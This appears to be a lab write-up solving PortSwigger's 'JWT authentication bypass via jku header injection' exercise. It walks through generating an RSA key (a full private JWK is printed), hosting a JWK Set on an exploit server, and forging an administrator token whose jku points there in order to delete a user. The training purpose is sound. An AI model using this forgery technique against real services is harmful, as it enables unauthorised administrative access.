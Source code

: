 # JWT authentication bypass via jku header injection

## Description

[This lab](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection) uses a JWT-based mechanism for handling sessions. The server supports the `jku` parameter in the JWT header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key.

## Reproduction and proof of concept

### Upload a malicious JWK Set

1. In Burp, load the [JWT Editor extension](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd) from the BApp store.
2. In the lab, log in to your own account and send the post-login `GET /my-account` request to Burp Repeater.
3. In Burp Repeater, change the path to `/admin` and send the request. Observe that the admin panel is only accessible when logged in as the administrator user.
4. Go to the **JWT Editor Keys** tab in Burp's main tab bar.
5. Click **New RSA Key**.
6. In the dialogue, click **Generate** to automatically generate a new key pair, then click **OK** to save the key. Note that you don't need to select a key size as this will automatically be updated later.

```text
{
    "p": "6U8QUkjEgY_xfM0mVnsw-2XZCcXNRI6M-EAqyMJSgUN0AKp6TVwgrcloFj_7VSxHicbc6sXTpQW70iAax6U9wOJWkLhAMUDF_UQ8EeYENKPEakqVJEAOIicSZmB7wV_fYkSfnr64RljApyXSN4O_0kdWxWcgB5Tcuxw3lXqe1-s",
    "kty": "RSA",
    "q": "3HG-c-3y47tWuGIM8KIZY9gbiDXII8IKSCFVxPk7cRMrpueNDgp5-A18JuXWda4tBE1saXDFAaOXAyuAn9FdmseMxYrQkXzlK6u0j8rtzXzq8RVwgRtfXrosWzhoJJyH9cSBYo-tnX6077tgswmKOu-OviJBvyqmm6D3FrjsBB8",
    "d": "Tu2Gznhl1TPU1TaJcj8As6p79W2u3lAjJWv97HrtK-eRRbwm8O88dpeqtik1BBl1OiXTWv-08CTNCF9UBeG-_VsqZ0BaRtnppYeVlgzlGUlNm7-JhjTVXWitODzGopAEGt5SUUgTzau8-lVt1st69YG1_RNrGL7MuVX-B3akpicYTbJxWLzmATRyzeTz8yxAcLH1yXF8428hIlNw59ocplRavjF2mM4_VJxN11UfEBkyaDxm5UnFqSLkaDx5kkfzx56urPCpvsnWq78zFV-k2avEd1R_10API90iU3hbximcEhmBtCJHIPq3JPiU6iShML3Nkg7o6rcb4VfjCcIdBQ",
    "e": "AQAB",
    "kid": "8af37de4-0f37-4997-be5f-8260eb1a7f6b",
    "qi": "I9Lj-UdZ_khdA9YPNYlBOQK84qRL7wYVUw2ZVAK6jdKKX2Eqsr7okHPg6uaAGlxex0F9ZunVK2BnfK-ETpkNkrA_6GOyHJj3Ui35YTkDaHQy6FEaX2DIkTsBtVC2TZ2Q50Yl7wFoVowd7krE0rM_nCGl5DcT7JWnYqfSB4JpNKM",
    "dp": "SWN0Z9256mNj-_TwNU3k939vCRLuYb1RfJl6m9H8b-rO55K4i_MJ2IC9PBp-LamTCzTBsxvtWkB2dz9gDSLeTPklb7p1fsi4PtWi66Jl-kT1eNXjGhcIGxgdQpTg-M_2jYu2hhHKF169oxZTjODlivijw86PlbLux_C1T1DV_Gc",
    "dq": "m_g6WUnVHX2x-Nke8K6wKi2AJVpwFaS3o5s6VRhGD1YR_5A7A-EztObNnbPmjfLDVRT2jI_GQ8ecFBkWc30trlJb7nSt5xIoD0L4iPh6UnZ8wEB8DkzwqFQvCAeb37OEmsYDCVpA63r3x9qaq3InhFV0eGBChmBF6zzzNfd2vd8",
    "n": "yOebf0BX83Le6RNJLXkvAbtezgNxdV259TGE5EH_XzXunOSxjSQtHoQdSkND-QZYyUZXU6kE0iF6wcBFGGhUYu73JR_XqeV1F5ElzypMcV99mWulBRWaByjIOC1ocZMISo5f02Zpq7MReGwuN4Ow-80B_IiyYJqvu3XyRfwfliwN4wnioeIq4Woc94SCgTBbiGRVUzke59KWIg1gmEHg4g2VhQFt0VbyqrYq_QX8lHrN3gau1vtkvTHq6ZlBK7ZQWrKHuWOw_MMbZBJi1nyvKs2VsPJwHEJsuY5ID6e02nFKA2XJxYOK2GHp4UQJaXXfkfvCWsOxoCnPEpHWST_RdQ"
}
```

7. In the browser, go to the exploit server.
8. Replace the contents of the Body section with an empty **JWK Set**:

```text
{
    "keys": [

    ]
}
```

9. Back on the JWT Editor Keys tab, right-click on the entry for the key that you just generated, then select **Copy Public Key as JWK**.
10. Paste the JWK into the keys array on the exploit server, then store the exploit. The result should look something like this:

![JWT](/_static/images/jwt5.png)

### Modify and sign the JWT

1. Go back to the `GET /admin` request in Burp Repeater and switch to the extension-generated **JSON Web Token message** editor tab.
2. In the header of the JWT, replace the current value of the `kid` parameter with the `kid` of the JWK that you uploaded to the exploit server.
3. Add a new `jku` parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.

```text
{
    "kid": "8af37de4-0f37-4997-be5f-8260eb1a7f6b",
    "alg": "RS256",
    "jku": "https://exploit-0a7b002e04e9fa4dc1f30ce501ad00df.exploit-server.net/.well-known/jwks.json"
}
```

4. In the payload, change the value of the `sub` claim to `administrator`.

```text
{
    "iss": "portswigger",
    "sub": "administrator",
    "exp": 1677593837
}
```

5. At the bottom of the tab, click **Sign**, then select the RSA key that you generated in the previous section.
6. Make sure that the `Don't modify header` option is selected, then click **OK**. The modified token is now signed with the correct signature.
7. Send the request. Observe that you have successfully accessed the admin panel.
8. In the response, find the URL for deleting Carlos (`/admin/delete?username=carlos`). 

![JWT](/_static/images/jwt6.png)

Send the request to this endpoint to solve the lab.

## Exploitability

An attacker will need to log in to `wiener:peter`; forge a JWT that gives access to the admin panel at `/admin`; then delete the user carlos.
